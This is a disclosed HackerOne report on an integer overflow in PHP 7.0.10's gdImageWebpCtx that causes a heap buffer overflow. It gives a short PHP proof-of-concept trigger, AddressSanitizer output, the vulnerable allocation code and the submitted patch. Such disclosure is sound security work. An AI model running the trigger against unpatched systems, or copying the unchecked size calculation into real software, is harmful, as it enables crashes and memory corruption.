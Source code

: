 # PHP Integer Overflow in gdImageWebpCtx

## Report Details
- **Report ID**: 170619
- **URL**: https://hackerone.com/reports/170619
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-09-20T02:47:07.185Z
- **Disclosed**: 2020-10-10T01:50:05.408Z

## Reporter
- **Username**: binvul
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
# PHP Integer Overflow in gdImageWebpCtx

## 1. Affected Version
+ PHP 7.0.10

## 2. Credit
This vulnerability was discovered by Ke Liu of Tencent's Xuanwu LAB.

## 3. Testing Environments
+ **OS**: Ubuntu
+ **PHP**: [7.0.10](http://php.net/distributions/php-7.0.10.tar.gz)
+ **Compiler**: Clang
+ **CFLAGS**: ``-g -O0 -fsanitize=address``

## 4. PoC

```
<?php
    ini_set('memory_limit', -1);
    $im = imagecreatetruecolor(0x8000, 0x8001);
    imagewebp($im, 'php.webp');
    imagedestroy($im);
?>
```

## 5. Vulnerability Details

AddressSanitizer output the following exception information.

```
==2583==ERROR: AddressSanitizer: heap-buffer-overflow on address
0x7ff13d43e800 at pc 0x000000a77d0d bp 0x7ffe8ecdae90 sp 0x7ffe8ecdae88
WRITE of size 1 at 0x7ff13d43e800 thread T0
    #0 0xa77d0c in gdImageWebpCtx /php_src/ext/gd/libgd/gd_webp.c:139:4
    #1 0x9c0aac in _php_image_output_ctx /php_src/ext/gd/gd_ctx.c:175:6
    #2 0x9aab7d in zif_imagewebp /php_src/ext/gd/gd.c:2690:2
    #3 0x2655967 in ZEND_DO_ICALL_SPEC_RETVAL_UNUSED_HANDLER /php_src/Zend/zend_vm_execute.h:628:2
    #4 0x20399e0 in execute_ex /php_src/Zend/zend_vm_execute.h:432:7
    #5 0x203f75a in zend_execute /php_src/Zend/zend_vm_execute.h:474:2
    #6 0x1b41033 in zend_execute_scripts /php_src/Zend/zend.c:1464:4
    #7 0x160a813 in php_execute_script /php_src/main/main.c:2537:14
    #8 0x2babd79 in do_cli /php_src/sapi/cli/php_cli.c:990:5
    #9 0x2ba4f0d in main /php_src/sapi/cli/php_cli.c:1378:18
    #10 0x7ff25026ff44 in __libc_start_main /build/eglibc-oGUzwX/eglibc-2.19/csu/libc-start.c:287:0
    #11 0x469856 in _start ??:0:0

0x7ff13d43e800 is located 0 bytes to the right of 131072-byte region [0x7ff13d41e800,0x7ff13d43e800)
allocated by thread T0 here:
    #0 0x4f0812 in malloc ??:0:0
    #1 0x18e6886 in _emalloc /php_src/Zend/zend_alloc.c:2402:11
    #2 0xa774b0 in gdImageWebpCtx /php_src/ext/gd/libgd/gd_webp.c:123:20
    #3 0x9c0aac in _php_image_output_ctx /php_src/ext/gd/gd_ctx.c:175:6
    #4 0x9aab7d in zif_imagewebp /php_src/ext/gd/gd.c:2690:2
    #5 0x2655967 in ZEND_DO_ICALL_SPEC_RETVAL_UNUSED_HANDLER /php_src/Zend/zend_vm_execute.h:628:2
    #6 0x20399e0 in execute_ex /php_src/Zend/zend_vm_execute.h:432:7
    #7 0x203f75a in zend_execute /php_src/Zend/zend_vm_execute.h:474:2
    #8 0x1b41033 in zend_execute_scripts /php_src/Zend/zend.c:1464:4
    #9 0x160a813 in php_execute_script /php_src/main/main.c:2537:14
    #10 0x2babd79 in do_cli /php_src/sapi/cli/php_cli.c:990:5
    #11 0x2ba4f0d in main /php_src/sapi/cli/php_cli.c:1378:18
    #12 0x7ff25026ff44 in __libc_start_main /build/eglibc-oGUzwX/eglibc-2.19/csu/libc-start.c:287:0

SUMMARY: AddressSanitizer: heap-buffer-overflow ??:0 ??
Shadow bytes around the buggy address:
  0x0ffea7a7fcb0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0ffea7a7fcc0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0ffea7a7fcd0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0ffea7a7fce0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0ffea7a7fcf0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x0ffea7a7fd00:[fa]fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0ffea7a7fd10: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0ffea7a7fd20: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0ffea7a7fd30: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0ffea7a7fd40: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0ffea7a7fd50: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone:       fa
  Heap right redzone:      fb
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack partial redzone:   f4
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==2583==ABORTING
```

# 6. Source Code Analysis
This is an **integer overflow** issue which could lead to **heap buffer overflow (out-of-bounds write)** circumstances. The bad code lies in function ``gdImageWebpCtx`` of file ``gd_webp.c``. At line 123 we can see the following code.

```
argb = (uint8_t *)gdMalloc(gdImageSX(im) * 4 * gdImageSY(im));  // integer overflow!!!
```

There is no overflow check before calling the ``gdMalloc`` function. Actually, an **integer overflow** can be happened here. For example, ``0x8000 * 0x8001 * 4 = 0x100020000 -> Overflow -> 0x20000``. The buffer will be overflowed in the following ``for`` loop.

```
for (y = 0; y < gdImageSY(im); y++) {
    for (x = 0; x < gdImageSX(im); x++) {
        register int c;
        register char a;
        c = im->tpixels[y][x];
        a = gdTrueColorGetAlpha(c);
        if (a == 127) {
            a = 0;
        } else {
            a = 255 - ((a << 1) + (a >> 6));
        }
        *(p++) = gdTrueColorGetRed(c);    // heap buffer overflow!!!
        *(p++) = gdTrueColorGetGreen(c);  // heap buffer overflow!!!
        *(p++) = gdTrueColorGetBlue(c);   // heap buffer overflow!!!
        *(p++) = a;    // heap buffer overflow!!!
    }
}
```

## 7. Patch
I wrote a patch for this issue and submitted it to PHP and libgd.

```
if (overflow2(gdImageSX(im), 4)) {
    return ;
}

if (overflow2(gdImageSX(im) * 4, gdImageSY(im))) {
    return ;
}
```

## 8. Timeline
+ 2016.09.02 - Found
+ 2016.09.02 - Reported to PHP via [73003](https://bugs.php.net/bug.php?id=73003)
+ 2016.09.06 - Reported to libgd and supplied a patch [libgd/pull/296](https://github.com/libgd/libgd/pull/296)
+ 2016.09.06 - Supplied a patch for PHP [php-src/pull/2119](https://github.com/php/php-src/pull/2119)
+ 2016.09.16 - Fixed in libgd
+ 2016.09.16 - Fixed in PHP


## Attachments
No attachments
